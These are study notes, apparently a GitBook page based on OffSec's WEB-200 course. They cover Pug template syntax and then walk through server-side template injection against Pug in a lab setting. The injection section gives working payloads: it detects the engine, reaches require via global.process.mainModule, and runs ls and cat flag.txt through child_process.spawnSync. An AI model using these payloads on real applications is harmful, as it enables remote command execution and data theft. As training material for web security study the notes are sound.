




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Pug

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._


Pug is commonly integrated with the Express framework in a NodeJS application.


Pug is specially-designed to generate HTML files and that is why it has syntax for specifying an HTML tag and tag attributes. Some things to note:

* Pug requires the first word to be the HTML tag that will wrap the following data (e.g. `h1`).
* It allows us to pass tag attributes within parantheses after the tag declaration (`input(type='hidden' name='admin' value='true')`.
* Keywords like `if` and `else` are not treated as HTML tags.
* Puge can execute JavaScript code directly.
  * With the dash character (`-`) the code will be executed by the JavaScript engine and the output won't be displayed (**unbuffered code**) (`- secret = ['❤️','😍', '🤟']`).
  * With the equal sign (`=`) the code will be execute and the output will be displayed (**buffered code**) (`= secret = ['❤️','😍', '🤟']`).

```pug
h1 Hello, #{name}
input(type='hidden' name='admin' value='true')
 
if showSecret
  - secret = ['❤️','😍', '🤟']
  p The secrets are: 
  each val in secret
    p #{val}
  else
    p No secret for you!
```

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Pug requires each line to start with an HTML tag and it uses JavaScript which handles in a non-strict way. Thus, we can use a simple payload such as `#{7*'7'}` and it is executed to `49` and wrapped around `<>`, we can infer that Pug is used (Figure 1).

<figure><figcaption><p>Figure 1: Enumerating a Pug templating engine.</p></figcaption></figure>

Pug is typically rendering on the server-side and since we know that it uses NodeJS, we can use the `child_process.spawnSync` command to execute system commands. The `child_process` module is not available by default, but we can import it via the `require`function, if the latter exists (Figure 2).

```pug
= require
```

<figure><figcaption><p>Figure 2: Checking if direct access to the <code>require</code> function is available.</p></figcaption></figure>

It seems that we don't have direct access to `require` but we can still access it through `global.process.mainModule` (Figure 3).

```pug
= global.process.mainModule.require
```

<figure><figcaption><p>Figure 3: Accessing <code>require</code> via the <code>global</code> object.</p></figcaption></figure>

Next, we can use `require` to import [`child_process`](https://nodejs.org/api/child_process.html#child_processspawnsynccommand-args-options), and use the latter for execute system commands (Figure 4).

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls').stdout
```

<figure><figcaption><p>Figure 4: Executing system commands via the Pug templating engine.</p></figcaption></figure>

To read the flag we need to pass the file as a command argument.

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat',['flag.txt']).stdout
```
